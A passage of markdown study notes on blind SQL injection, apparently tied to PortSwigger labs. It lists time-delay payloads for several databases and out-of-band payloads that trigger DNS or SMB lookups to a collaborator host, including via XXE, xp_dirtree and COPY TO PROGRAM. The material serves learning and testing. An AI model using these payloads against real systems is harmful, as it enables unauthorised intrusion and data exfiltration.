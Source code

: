 - submit payload pauses the application for period of time

  > MySQL (string concat and logical ops)
  >
  > > 1' + sleep(10)
  > > 1' and sleep(10)
  > > 1' && sleep(10)
  > > 1' | sleep(10)
  >
  > PostgreSQL (only support string concat)
  >
  > > 1' || pg_sleep(10)
  >
  > MSQL
  >
  > > 1' WAITFOR DELAY '0:0:10'
  >
  > Oracle
  >
  > > 1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
  > > 1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)
  >
  > SQLite
  >
  > > 1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
  > > 1
  >
  > NOTE: In some cases the sleep functions won't be allowed. Then, instead of using those functions you could make the query perform complex operations that will take several seconds.

- then write a program that asks DB true/false questions and extract data

Laps:

- [Blind SQL injection with time delays Portswigger lap](./laps/Time-delay-pw-1.md)
- [Blind SQL injection with time delays and information retrieval Portswigger lap](./laps/time-delays-and-information-retrieval-pw.md)

### 6- Exploiting Out of Band SQLI

- Use DNS lookup and observe the behavior on owned domain

  > Oracle
  >
  > > The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:
  > > SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
  > >
  > > The following technique works on fully patched Oracle installations, but requires elevated privileges:
  > > SELECT UTL_INADDR.get_host_address('COLLABORATOR-SUBDOMAIN')
  >
  > Microsoft
  >
  > > exec master..xp_dirtree '//COLLABORATOR-SUBDOMAIN/a'
  >
  > PostgreSQL copy (SELECT '') to program 'nslookup COLLABORATOR-SUBDOMAIN'
  >
  > MySQL The following techniques work on Windows only:
  >
  > > LOAD_FILE('\\\\COLLABORATOR-SUBDOMAIN\\a')
  > > SELECT ... INTO OUTFILE '\\\\COLLABORATOR-SUBDOMAIN\a'
